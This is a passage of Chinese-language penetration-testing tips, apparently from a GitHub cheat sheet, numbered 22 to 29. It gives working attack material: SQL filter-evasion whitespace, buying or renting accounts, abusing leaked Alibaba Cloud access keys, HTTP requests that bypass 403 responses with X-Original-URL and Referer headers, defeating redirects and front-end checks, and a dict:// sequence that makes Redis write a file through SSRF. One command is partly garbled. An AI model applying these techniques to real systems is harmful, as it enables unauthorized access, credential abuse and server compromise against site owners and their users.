 22、盲测目录是否存在，如果存在该目录可能会自动在URL末尾添加`/`补全。

23、Mysql中可以利用的空白字符有：`%09,%0a,%0b,%0c,%0d,%20,%a0`

24、获取账号：文库，QQ群，github泄露，借/租/买账号。

25、如果泄露阿里云的 AKSK，可以使用AKSKtools工具进一步利用。`https://xz.aliyun.com/t/8429  `    

26、如果遇见后台页面一闪而过，接着让你登录，一般使用了权限认证方式，可以用一下方式进行绕过，或者遇见401,403,302，都可以尝试使用以下方法：

```
一、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
X-Original-URL: /xxx

二、GET /xxx HTTP/1.1 à403
Host: test.com
绕过：
GET /xxx HTTP/1.1 à200
Host: test.com
Referer: http://test.com/xxx

三、302跳转：拦截并drop跳转的数据包，使其停留在当前页面。
四、前端验证：只需要删掉对应的遮挡模块，或者是验证模块的前端代码。
```

27、gopher协议使用限制：

![640.png](https://github.com/CYJoe-Cyclone/PenetrationTesttips/blob/main/img/GOpher%E5%8D%8F%E8%AE%AE.png)

28、一款生成gopher协议payload的工具：

```
https://github.com/firebroo/sec_tools
```

29、Dict协议写入流程：

```
1.写入内容；
 dict://127.0.0.1:6379/set❌test

2.设置保存路径；
dict://127.0.0.1:6379/config:set:dir:/tmp/

3.设置保存文件名；
dict://127.0.0.1:6379/config:set:dbfilename:1.png

4.保存。
dict://127.0.0.1:6379/save
```

